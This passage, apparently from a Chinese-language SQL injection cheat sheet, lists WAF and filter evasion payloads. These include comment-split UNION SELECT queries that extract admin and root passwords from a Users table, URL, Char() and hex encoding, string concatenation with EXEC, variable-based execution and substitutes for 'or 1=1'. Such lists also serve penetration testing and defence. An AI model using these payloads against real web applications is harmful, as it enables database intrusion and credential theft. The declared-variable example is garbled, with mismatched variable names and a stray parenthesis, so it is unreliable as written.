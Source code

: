 ```

```'/**/UNION/**/SELECT/**/password/**/FROM/**/Users/**/WHERE/**/name/**/LIKE/**/'admin'--```

```'/**/UNI/**/ON/**/SE/**/LECT/**/password/**/FROM/**/Users/**/WHE/**/RE/**/name/**/LIKE/**/'admin'--```

#### URL编码
使用在线URL编码对SQL语句进行编码，例如有SQL：

```' UNION SELECT password FROM Users WHERE name='admin'--```

SQL注入语句的URL编码为:

```%27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--```

#### 字符编码
```Char()```函数可用于替换英文char。例如，```char(114,111,111,116)```表示root。

例如有sql：```' UNION SELECT password FROM Users WHERE name='root'--```

应用```Char()```后的SQL injeciton语句：
```' UNION SELECT password FROM Users WHERE name=char(114,111,111,116)--```

#### 字符串拼接

拼接会破坏SQL关键字并逃避过滤器。拼接语法因数据库引擎而异。

以MS SQL引擎为例：

```select 1```

通过使用拼接，可以如下更改简单的SQL语句

```EXEC('SEL' + 'ECT 1')```

#### 十六进制编码
十六进制编码技术使用十六进制编码来替换原始SQL语句char。例如，root可以表示为726F6F74

```Select user from users where name = 'root'```

使用HEX值的SQL语句将为：

```Select user from users where name = 726F6F74```

或者

```Select user from users where name = unhex('726F6F74')```

#### 声明变量
将SQL注入语句声明为变量并执行它。

例如，下面的SQL注入语句:

```Union Select password```

将SQL语句定义为变量 SQLivar

```
; declare @SQLivar nvarchar(80); set @myvar = N'UNI' + N'ON' + N' SELECT' + N'password');
EXEC(@SQLivar)
```

#### ```'or1 = 1'```的替代表达
```
OR 'SQLi' = 'SQL'+'i'
OR 'SQLi' &gt; 'S'
or 20 &gt; 1